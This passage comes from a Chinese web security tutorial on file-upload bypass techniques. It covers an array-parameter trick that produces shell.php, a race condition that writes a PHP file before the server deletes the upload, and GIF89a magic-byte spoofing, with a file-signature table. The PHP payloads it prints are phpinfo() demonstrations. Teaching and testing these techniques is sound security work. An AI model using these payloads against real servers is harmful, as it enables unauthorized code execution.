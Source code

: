 假设攻击者发送以下GET请求：

```bash
http://example.com/upload.php?save_name[0]=shell&save_name[2]=php
```

最终文件为`shell.php`



##### 条件竞争

条件竞争漏洞，发生在多个线程同时访问同一个共享代码、变量、文件等没有进行锁操作或者同步操作的场景中。服务器对上传文件的操作大多数都是单线程处理，当我们执行多个线程时可以绕过一些服务器端的防御。 这里使用了unlink函数来删除不符合的文件，但代码执行的过程是需要耗费时间的。如果我们能在上传的一句话被删除之前访问就能够成功执行

```php
<?php fputs(fopen('shell.php','w'),'<?php phpinfo();?>'); ?>
```



##### 文件头绕过（检测文件头）

```bash
JPEG (JPG) 文件
文件头: FF D8 FF
PNG 文件
文件头: 89 50 4E 47 0D 0A 1A 0A
GIF 文件
文件头: 47 49 46 38 (GIF89a) 或者 47 49 46 38 37 61 (GIF87a)
PDF 文件
文件头: %PDF-
ZIP 文件
文件头: 50 4B 03 04 (压缩的ZIP文件) 或者 50 4B 05 06 (未压缩的ZIP文件)
Microsoft Office 文件
Word文档 (.doc): D0 CF 11 E0 A1 B1 1A E1
Word文档 (.docx): 50 4B 03 04 14 00 06 00
Excel电子表格 (.xls): D0 CF 11 E0 A1 B1 1A E1
Excel电子表格 (.xlsx): 50 4B 03 04 14 00 06 00
PowerPoint演示文稿 (.ppt): D0 CF 11 E0 A1 B1 1A E1
PowerPoint演示文稿 (.pptx): 50 4B 03 04 14 00 06 00
TIFF 文件
文件头: 49 49 2A 00 (小端) 或者 4D 4D 00 2A (大端)
MP3 文件
文件头: 49 44 33 后面通常跟着 2E 00 或者其他标识版本和层的信息
AVI 文件
文件头: 52 49 46 46 (RIFF) 紧接着是 41 56 49 20 (AVI )
BMP 文件
文件头: 42 4D
```

在进行文件头绕过时，我们可以把上面的文件头添加到我们的一句话木马内容最前面，达到绕过文件头检测的目的。

```php
GIF89a

<?php phpinfo();?>
```

